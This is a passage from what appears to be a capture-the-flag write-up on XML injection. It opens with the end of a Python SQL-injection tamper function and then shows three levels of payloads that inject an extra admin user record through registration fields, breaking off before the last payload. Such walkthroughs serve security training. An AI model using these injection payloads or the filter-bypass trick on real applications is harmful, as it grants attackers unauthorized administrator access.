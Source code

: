 ```python 
        retVal = re.sub(r"(?i)\bOR", "%0bOR", payload)

    return retVal
```

# XXE
## XML Injections
### Level 1
We find the following XML structure from an old function left in the registration JS script:
```javascript
function WSregister__old() {
    ...
    var xml = '<?xml version="1.0" encoding="utf-8"?> ';
    xml += '<user>                                    ';
    xml += '    <role>2</role>                        ';
    xml += '    <name>' + name + '</name>             ';
    xml += '    <username>' + username + '</username> ';
    xml += '    <password>' + password + '</password> ';
    xml += '</user>                                   ';
    ...
}
```

We can therefore try the injection in multiple places. We see that XML specific chars, such as <> are encoded when passed in the name and password parameters, but not in the username. So we can simply register a user with the following params:
```xml
name:     useless
username: useless</username></user><user><rule>1</rule><name>l33t</name><username>l33t
password: l33t
```
We see that two registration requests are made and thus the l33t account with admin rule is created. We then simply log in.
### Level 2
Again, we find the XML structure as above.
The password parameter does not seem injectable, but username and name do.
If we inject into name though, it doesn't work and same goes if we inject into username.
Interestingly, the application returns that a > is expected when injecting
```xml
</username></user><user><rule>1</rule><name>l33t</name><username>l33t
```
So, it truncates the input in <\/rule>, so we have a character limitation. Since we have two params to inject though, we can still register a user supplying the following payload:
```xml
name:       a</name></user><user><rule>1<\!--
username:   --></rule><name>x</name><username>x
password:   l33t
```
Separating the injection in two params is working and we register the admin user this way.
### Level 3
Again, as above injection happens only on name and username parameters. The injection above though does not work, because of some filtering or encoding.
Tampering with the application we see that '&', '\', ',', '.' are filtered, while '<','>' are not.
We can therefore inject as follows:
```xml
name:     </name></user><user><rule{NEW_LINE}>1<\!--
username: --></rule{NEW_LINE}><name></name><username>x
password: l33t
```
This though would not work, as the usernmae field is too long. We can try to remove the name tag, as it is not used during the login, and thus we get the working payload: